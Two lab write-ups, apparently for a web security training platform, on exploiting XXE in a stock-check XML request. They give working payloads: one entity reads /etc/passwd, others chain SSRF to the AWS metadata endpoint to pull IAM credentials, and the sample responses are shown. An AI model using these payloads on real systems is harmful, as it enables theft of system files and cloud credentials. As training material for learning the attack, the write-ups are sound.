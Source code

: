 **LAB 1**
### Writeup: Exploiting XXE to Read the `/etc/passwd` File

---

#### **Objective**:
To demonstrate how an **XML External Entity (XXE)** vulnerability can be exploited to read sensitive files on a server, such as the `/etc/passwd` file, by manipulating an XML request.

---

#### **Steps**:

1. **Visit the Product Page**:
   - Navigate to the target website and visit a product page.
   - Look for a feature like "Check stock" or any functionality that triggers a request to check product availability.

2. **Intercept the Request**:
   - Open **Burp Suite** and configure your browser to route traffic through it.
   - Click the "Check stock" button on the product page.
   - In Burp Suite, intercept the resulting **POST request** in the **Proxy** tab.

3. **Analyze the Request**:
   - Observe that the request contains XML data, likely in the body of the POST request. For example:
     ```xml
     <?xml version="1.0" encoding="UTF-8"?>
     <stockCheck>
         <productId>123</productId>
         <storeId>1</storeId>
     </stockCheck>
     ```

4. **Inject the External Entity Definition**:
   - Insert an external entity definition between the XML declaration and the `stockCheck` element. For example:
     ```xml
     <?xml version="1.0" encoding="UTF-8"?>
     <!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
     <stockCheck>
         <productId>&xxe;</productId>
         <storeId>1</storeId>
     </stockCheck>
     ```
   - Here, the `xxe` entity is defined to load the contents of the `/etc/passwd` file from the server.

5. **Replace the `productId` with the Entity Reference**:
   - Replace the numeric value of `productId` with a reference to the external entity (`&xxe;`). This will cause the server to replace `&xxe;` with the contents of the `/etc/passwd` file when parsing the XML.

6. **Forward the Request**:
   - Forward the modified request in Burp Suite and observe the server's response.

---

#### **Expected Result**:
- The server processes the malicious XML and attempts to resolve the `xxe` entity by reading the `/etc/passwd` file.
- The response will likely contain an error message like:
  ```
  Invalid product ID: root:x:0:0:root:/root:/bin/bash
  daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
  bin:x:2:2:bin:/bin:/usr/sbin/nologin
  ...
  ```
- This output confirms that the server has successfully read and returned the contents of the `/etc/passwd` file, demonstrating the XXE vulnerability.

---

LAB 2 - XXE WITH SSRF
# **XXE to SSRF Exploitation Write-up**  

## **Objective**  
To solve the lab, exploit the XXE vulnerability to perform an SSRF attack that obtains the server's **IAM secret access key** from the **EC2 metadata endpoint**.

---

## **Steps to Exploit the XXE Vulnerability**  

### **1. Intercept the Stock Check Request**  
- Visit a product page on the target web application.  
- Click on **"Check stock"** to generate a request.  
- Open **Burp Suite** and go to the **Proxy** tab to **intercept the request**.  

---

### **2. Modify the XML Request to Inject an External Entity**  
- The original request body contains an XML structure like:  

  ```
  <?xml version="1.0" encoding="UTF-8"?>
  <stockCheck>
    <productId>123</productId>
  </stockCheck>
  ```  

- Modify it to include an **external entity definition** that targets the AWS metadata API:  

  ```
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE foo [  
    <!ENTITY xxe SYSTEM "http://169.254.169.254/">  
  ]>
  <stockCheck>
    <productId>&xxe;</productId>
  </stockCheck>
  ```  

- Forward this request to the server.  

---

### **3. Extract the Initial Metadata Response**  
- The response should contain an **"Invalid product ID"** message, followed by the **contents of the metadata endpoint**.  
- The initial response may list available folders, such as:  

  ```
  Invalid product ID: meta-data/
  ```  

---

### **4. Explore the AWS Metadata API**  
- Modify the **entity URL** to explore deeper directories:  

  ```
  <!DOCTYPE foo [  
    <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/">  
  ]>
  <stockCheck>
    <productId>&xxe;</productId>
  </stockCheck>
  ```  

- The response should return available metadata categories:  

  ```
  Invalid product ID: iam/
  ```

- Continue refining the payload to extract **IAM credentials**:  

  ```
  <!DOCTYPE foo [  
    <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin">  
  ]>
  <stockCheck>
    <productId>&xxe;</productId>
  </stockCheck>
  ```  

---

### **5. Extract AWS Credentials**  
- The response should now return **AWS IAM credentials** in JSON format, containing:  
  - `AccessKeyId`  
  - `SecretAccessKey`  
  - `Token`  

  Example response:  

  ```
  "Invalid product ID: {
  "Code" : "Success",
  "LastUpdated" : "2025-01-31T13:00:03.058000926Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "FZAOCiMDHsO0sjuoAmMY",
  "SecretAccessKey" : "qFd3EBresB8ROr5aGcySRLKZj5n3dC0Diz1C2OEJ",
  "Token" : "V71vS981zt0MzLNZc7zhtVT87oqyzCjEcxHg9eF7nWE9mMrY3e1gR04sHuil6aWBHiszKbD4Qbx58fp1Rx2qkWuDb0X0DzgY6o7pZtSC1mk88hV4IK5JlLR4sGH8DZHwQ5tZ6k0qiaSjXBIFXoACF3AJx48JIYVGTtqQ7n3RviG3lvdUg1mWz0l2xC4cDfTv5XnPMkz5dSHAMeubWcOegy4piHU1hO6ejqSh623Zr11uP7mXbMYQDuuuTR4WmW4u",
  "Expiration" : "2031-01-30T13:00:03.058000926Z" }
  ```  

## **Conclusion**  
This lab demonstrates how **XXE Injection** can be leveraged to conduct **SSRF attacks** against internal cloud metadata services. By iteratively refining the payload, attackers can extract **AWS IAM credentials**, leading to potential full cloud compromise.
